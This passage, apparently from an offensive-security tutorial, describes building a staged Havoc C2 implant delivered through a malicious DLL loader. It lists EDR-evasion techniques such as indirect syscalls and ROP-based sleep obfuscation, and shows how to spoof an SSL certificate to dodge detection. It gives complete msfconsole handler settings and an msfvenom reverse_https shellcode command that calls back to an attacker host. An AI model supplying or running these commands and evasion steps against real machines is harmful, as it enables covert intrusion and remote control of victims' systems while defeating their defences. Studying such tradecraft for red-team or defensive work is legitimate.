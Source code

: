 #### Stage 2 Payload Customization Details
* Indirect Syscalls: Syscalls executed within ntdll.dll memory space mimic legitimate operations, evading EDR detection.

* Stack Duplication: During sleep phases, duplicate stacks to avoid detection.

* Foliage Technique: Utilize NtApcQueueThread to queue a ROP chain for sleep obfuscation.

* RtlCreateTimer: Queue ROP chain between sleep cycles.

### 1.3 Creating the Stage 1 Shellcode
We need to create our first stage payload which is the only shellcode that will be inside of our malicious DLL loader (on disk) on the victim. We first want to generate a SSL certificate that will not be fingerprinted as being from msfvenom. This is extremely important or your meterpreter connection will be detected.

![Image Description](https://ayushadarsh.gitbook.io/~gitbook/image?url=https%3A%2F%2Fmiro.medium.com%2Fv2%2Fresize%3Afit%3A828%2Fformat%3Awebp%2F1*lxPR4yjg4XrEOWsMMMgt1g.png&width=400&dpr=2&quality=100&sign=9a28e21d&sv=1)
* Generate an SSL certificate to prevent detection as a standard MSFVenom fingerprint.

* This shellcode creates a reverse shell connection to our attacker machine to transfer the Stage 2 payload (demon.x64.bin) we just generated. 

#### Creating listener using msfconsole
Now we need to create a listener using msfconsole to handle the reverse shell code we just created. We make sure to enter the SHELLCODE_FILE as our Havoc C2 binary file we generated previously (demon.x64.bin) so we can send our Stage 2 payload after initial connection over meterpreter HTTPS. Here’s the options:

* use **multi/handler**

* set **payload windows/x64/custom/reverse_https**

* set **exitfunc thread**

* set **lhost <IP ADDR>**

* set **lport 8443**

* set **luri blog.html**

* set **HttpServerName Blogger**

* set **shellcode_file demon.x64.bin**

* set **exitonsession false**

* set **HttpHostHeader www.factbook.com**

* set **HandlerSSLCert www.google.com.pem**

```bash
msfvenom -p windows/x64/custom/reverse_https LHOST=10.0.2.9 LPORT=8443 EXITFUNC=thread -f raw HttpUserAgent='Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36' LURI=blog.html HandlerSSLCert=/home/atler/Downloads/www.google.com.pem
```

![Image Description](https://ayushadarsh.gitbook.io/~gitbook/image?url=https%3A%2F%2Fmiro.medium.com%2Fv2%2Fresize%3Afit%3A828%2Fformat%3Awebp%2F1*hVVAsx9vnrxHVVTrqDj4iw.png&width=400&dpr=2&quality=100&sign=a363570b&sv=1)
